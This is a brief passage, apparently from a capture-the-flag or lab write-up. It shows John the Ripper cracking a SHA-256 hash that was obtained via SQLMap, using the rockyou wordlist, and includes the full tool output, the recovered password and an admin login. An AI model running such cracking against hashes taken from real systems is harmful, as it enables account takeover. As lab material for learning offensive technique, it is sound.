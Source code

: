 ## JohnTheRipper
* save the hash we got from SQLMap into `hash.txt`
* `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2022-04-19 00:20) 1.724g/s 5028Kp/s 5028Kc/s 5028KC/s vimivera..veluasan
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
``` 

* login - `admin: videogamer124`